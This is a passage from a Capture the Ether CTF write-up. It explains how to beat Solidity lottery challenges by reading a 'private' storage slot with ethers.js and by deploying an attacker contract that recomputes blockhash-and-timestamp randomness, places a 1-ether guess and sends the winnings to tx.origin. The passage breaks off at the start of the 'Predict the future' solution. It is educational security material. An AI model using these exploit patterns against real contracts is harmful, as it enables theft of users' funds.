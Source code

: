## Guess the random number

Here, the answer is stored in the blockchain state (storage).
Even though the storage variable is private, all data on the blockchain is public and can still be retrieved.
Once we understand how [the storage is laid out](https://docs.soliditylang.org/en/v0.6.8/internals/layout_in_storage.html), we see that the `answer` storage variable is stored at slot `0` which we can then query from a node or using ethers.js:

```js
const number = BigNumber.from(
  await contract.provider.getStorageAt(contract.address, 0)
)
```

## Guess the new number

The answer does not use any future blockchain state which means we can write our [own smart contract](https://github.com/MrToph/capture-the-ether/blob/master/contracts/lotteries/GuessTheNewNumberAttacker.sol#L16-L27) that just emulates the exact same steps that the challenge smart contract does and then submit our result from our contract.

```solidity
function attack() external payable {
  // simulate all steps the challenge contract does
  require(address(this).balance >= 1 ether, "not enough funds");
  uint8 answer = uint8(uint256(
    keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
  ));
  challenge.guess{value: 1 ether}(answer);

  require(challenge.isComplete(), "challenge not completed");
  // return all of it to EOA
  tx.origin.transfer(address(this).balance);
}
```

If we were to calculate this off-chain and submit the answer we would need our transaction to be mined immediately within the next block.
As we don't have much control over when our transaction is mined and included in a block, doing the computation in a proxy smart contract is the better idea.

## Predict the future

This time the answer needs to be locked in first and can only be checked after a certain number of blocks have settled.
However, the answer is only in the range of 0 to 9 because of the modulo 10 instruction:

```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
```

Also notice how the answer is the result of using `keccak256`, a hash function, which will create a random number based on the head block number.
Therefore our strategy can be as simple as:
